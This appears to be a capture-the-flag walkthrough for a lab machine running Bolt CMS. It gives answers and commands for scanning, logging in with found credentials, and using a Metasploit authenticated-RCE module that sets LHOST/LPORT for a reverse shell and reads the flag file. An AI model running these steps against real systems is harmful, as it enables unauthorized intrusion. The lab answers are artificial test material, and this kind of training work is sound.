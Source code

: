 # Bolt

- Start the machine

	  no answer needed

-  What port number has a web server with a CMS running?

	- `nmap -sV <TARGET_IP>`
	- `8000`

- What is the username we can find in the CMS?

	- `bolt`

- What is the password we can find for the username?

	- `*****d*in123`

- What version of the CMS is installed on the server? (Ex: Name 1.1.1)

	- Login into the page `<TARGET_IP>/bolt` with username and password previously found.
	- `Bolt 3.7.1`

- There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

	- Search on Google `Bolt RCE Exploit DB`
	- `***2*`

- Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

	- `msfconsole`
	- `search bolt`
	- `use *`
	- `exploit/unix/******************************`

- Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

	  no answer needed

	- `set LHOST <YOUR_IP>`
	- `set LPORT 1234`
	- `set RHOST <TARGET_IP>`
	- `set USERNAME bolt`
	- `set PASSWORD ************`

- Look for flag.txt inside the machine.

	- `exploit`
	- `cat $(find / | grep flag.txt)`
	- `THM{***************************}`




